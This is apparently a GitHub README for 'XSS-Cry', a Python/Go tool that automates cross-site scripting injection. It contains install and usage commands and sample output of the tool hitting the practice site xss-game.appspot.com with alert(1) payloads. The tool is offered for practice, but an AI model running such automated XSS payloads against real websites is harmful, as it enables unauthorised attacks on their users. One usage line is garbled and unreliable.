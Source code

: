 # XSS-Cry
```
 _  _  ___  ___        ___  ____  _  _ 
( \/ )/ __)/ __) ___  / __)(  _ \( \/ )
 )  ( \__ ||__ \(___)( (__  )   / \  / 
(_/\_)(___/(___/      \___)(_)\_) (__) 
```
<br>
Practice Automated Cross-Site-Scriptin(XSS) attacks and injection with xss cry a script made from golang and python to automate XSSI getting post form req's and more
# usages and installs 
<br>
`install: git clone https://github.com/ArkAngeL43/XSS-Cry.git ; chmod +x ./install.sh ; ./install.sh`
<br>
`syntax: python3 xssi.py <url> <payload file>`
<br>
if you do not have an extra file or a file of payloads you can use the defualt xss.txt file like this 
`synL python3 xssi.py figlet parrots recon installer -f slant`
<br>
# xss output 

```

 _  _  ___  ___        ___  ____  _  _ 
( \/ )/ __)/ __) ___  / __)(  _ \( \/ )
 )  ( \__ ||__ \(___)( (__  )   / \  / 
(_/\_)(___/(___/      \___)(_)\_) (__) 
──────────────────────────────────────
    
[*] Socket Form -> xss-game.appspot.com
[*] Socket Name -> 172.217.3.84
[*] Regexed URL -> https://xss
[*] Started At  : 2021-10-24 21:10:23.802164
────────────────────────────────────────────
[*] Gathering X-Frame request headers......

[+] Response Status  ->  200 OK
[+] Date Of Request  ->  Mon, 25 Oct 2021 05:10:24 GMT
[+] Content-Encoding ->  
[+] Content-Type     ->  text/html; charset=utf-8
[+] Connected-Server ->  Google Frontend
[+] X-Frame-Options  ->  
[+] -> Content-Type -> [text/html; charset=utf-8]
[+] -> Cache-Control -> [no-cache]
[+] -> X-Xss-Protection -> [0]
[+] -> X-Cloud-Trace-Context -> [cc601b10861c59adea7166efa4ba77bb;o=1]
[+] -> Date -> [Mon, 25 Oct 2021 05:10:24 GMT]
[+] -> Server -> [Google Frontend]
[+] -> Alt-Svc -> [h3=":443"; ma=2592000,h3-29=":443"; ma=2592000,h3-Q050=":443"; ma=2592000,h3-Q046=":443"; ma=2592000,h3-Q043=":443"; ma=2592000,quic=":443"; ma=2592000; v="46,43"]
[+] -> Vary -> [Accept-Encoding]
Scheme        --->  https
Hostname      --->  xss-game.appspot.com
Path in URL   --->  /level1/frame
Query Strings --->  
Fragments     --->  
map[]
Detected Payloads in file ->  7136
----------------------------------------------
[+] Utilizing Defualt xss script -> {payload}
[+] Targeting URL -> https://xss-game.appspot.com/level1/frame
[+] Time Started  -> 2021-10-24 21:10:34.466050
[~] Testing Payload -> 1 : 'onload=alert(1)><svg/1='
[+] XSSI Returned True At -> 2021-10-24 21:10:36.832116
[+] XSS Detected -> https://xss-game.appspot.com/level1/frame
 +--------------------------------------------------------------------------------------------------------------------------------------------------------+
|                                                                Content and form details                                                                |
+--------------------------------------------------------------------------------------------------------------------------------------------------------+
| {'action': '', 'method': 'get', 'inputs': [{'type': 'text', 'name': 'query', 'value': "'onload=alert(1)><svg/1='"}, {'type': 'submit', 'name': None}]} |
+--------------------------------------------------------------------------------------------------------------------------------------------------------+
[~] Testing Payload -> 1 : '>alert(1)</script><script/1='
[+] XSSI Returned True At -> 2021-10-24 21:10:37.168141
[+] XSS Detected -> https://xss-game.appspot.com/level1/frame
```
